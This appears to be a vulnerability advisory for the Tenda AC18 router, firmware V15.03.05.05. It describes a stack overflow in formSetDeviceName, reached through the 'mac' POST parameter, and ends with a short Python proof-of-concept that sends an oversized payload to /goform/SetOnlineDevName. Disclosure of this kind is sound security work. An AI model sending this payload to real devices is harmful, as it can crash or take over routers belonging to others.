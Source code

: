 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v8` variable receives the `mac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mac` can trigger this security vulnerability.

![image-20240306171243036](formSetDeviceName_mac.assets/image-20240306171243036.png)

![image-20240306171344896](formSetDeviceName_mac.assets/image-20240306171344896.png)

![image-20240306171258485](formSetDeviceName_mac.assets/image-20240306171258485.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171400963](formSetDeviceName_mac.assets/image-20240306171400963.png)
